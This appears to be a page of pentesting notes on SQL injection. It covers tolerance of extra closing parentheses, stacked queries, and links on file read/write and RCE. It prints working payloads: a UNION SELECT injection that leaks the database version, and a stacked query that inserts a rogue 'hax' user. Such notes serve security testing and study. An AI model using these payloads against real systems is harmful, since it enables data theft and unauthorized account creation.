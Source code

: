 # Other

## SQL Parser Tolerance

SQL parsers in many databases are **tolerant of extra parentheses**; they are treated as valid syntax even if they don't pair with opening parentheses. For instance, if we are testing an application that we have control of the `name` parameter and we infer that the query looks something like this:

```sql
SELECT id, name, description, price
FROM products
WHERE (name LIKE '%z%' AND active = true)
ORDER BY id ASC;
```

we can add one or more closing parentheses to account for extra nesting:

```sql
// payload
z')union+select+1,version(),3,4--+;
```

{% code overflow="wrap" %}
```sql
// results in 500
WHERE (name LIKE '%z')union+select+1,version(),3,4--+; AND active = true) ORDER BY id ASC;
```
{% endcode %}

```sql
// payload
z'))union+select+1,version(),3,4--+;
```

{% code overflow="wrap" %}
```sql
// results in 200
WHERE (name LIKE '%z'))union+select+1,version(),3,4--+; AND active = true) ORDER BY id ASC;
```
{% endcode %}

## Stacked Queries

Some RDBMS[^1]s can execute more than one query at a time: these queries are submitted simultaneously, but executed sequentially. An RDMS might execute only the first query while another execute only the last.

A common vector of exploiting stacked queries is to add, update, or delete data as these types of queries don't return results if successfully executed.

```sql
// payload
10; insert into users(id, username, password) values (1001,'hax','hax');
```

## Reading/Writing Files

* For PostgreSQL see [here](../../../services/tcp/dbms/sql/postgresql-5432.md#read-write).
* For MySQL see [here](../../../services/tcp/dbms/sql/mysql-3306.md#read-write).

## RCE

* For MSSQL see [here](../../../services/tcp/dbms/sql/mssql-1433.md#rce).

[^1]: Relation Database Management System
